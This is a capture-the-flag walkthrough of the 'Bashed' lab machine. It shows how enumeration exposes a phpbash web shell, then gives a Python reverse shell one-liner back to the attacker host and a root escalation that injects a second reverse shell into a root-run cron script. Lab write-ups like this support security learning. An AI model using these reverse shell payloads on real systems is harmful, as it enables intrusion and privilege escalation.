# Bashed


## Initial Enumeration

As always, we'll start off with a simple nmap scan:

```bash
nmap -sV 10.10.10.68
```



Usually with such sparse results I would run a full port scan, but we'll investigate this webserver for now seeing that this is a box rated easy. Navigating to the landing page of this webserver we see the following:



Well this certainly looks interesting. If you dig around through the posts on this page you'll learn that this is a project for running a terminal in your browser and you will also come across the github [repo](https://github.com/Arrexel/phpbash). Let's run a directory buster against this webserver to see what other pages it could be hiding:

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.10.68 -t 50
```



From this we see a directory `/dev` which could be interesting. Navigating to this page shows us a file `phpbash.php` which gives us a php terminal as the `www-data` user in our browser:



## Exploitation

While we have a web shell, I would much rather have a full reverse shell. I tried using my usual methods (nc or Bash -i), but python ended up being the tool for the job. Using the following command in the webshell we're able to trigger a reverse shell back to our host:

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

```



As usual on a Linux box, we check `sudo -l` for quick wins. This command shows us that we are able to run any command as the user `scriptmanager`:



Before testing this access lets improve our QOL a little by converting our reverse shell to a full `tty` session. We can do this with python like so:

```bash
# Enter while in reverse shell
python -c 'import pty; pty.spawn("/bin/bash")'

Ctrl-Z

# In Kali
stty raw -echo
fg

# In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
```


If you are asked for the terminal type after running `reset` and before you export the `TERM` variable. simply enter `xterm-256color` and proceed as normal.


After running these commands we'll have a fully interactive tty session, allowing us to use terminal functions such as `clear` and tab completion:



With this let's go ahead and assume the user `scriptmanager` using `sudo`:

```bash
sudo -i -u scriptmanager
```



With this access we are able to read the user flag:



## Privilege Escalation

Now that we're the `scriptmanager` user, let's take a look and see what we can do with this level of access. To start we'll check the root directory and list it's contents. In here we see that we are able to read, write, and execute in a directory called `scripts`. Inside of this directory lies two files, `test.py` and `test.txt`. What's interesting here is that `scriptmanager` owns `test.py` and `root` owns `test.txt`:



Let's take a closer look at `test.py`:

```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

So it's a pretty simple script that opens a file `test.txt` in the current directory, writes `testing 123!` and closes the file. Knowing that the file `test.txt` is owned by `root`, we can assume that the root user is executing this script on some schedule. This makes this an easy task for us, because all we need to do is insert a reverse shell into this script and wait for it to be executed as the `root` user. To do this we will use the same logic as our first reverse shell, but because this will live in an actual python script we can clean up the syntax. After modification this is what `test.py` looks like:

```python
import socket,subprocess,os
f = open("test.txt","w")
f.write("privesc")
f.close
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.13",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

After writing this file and starting a netcat listener on port `4444` we only need to wait about a minute and our script is executed as the `root` user. This gives us the ability to read the root flag:



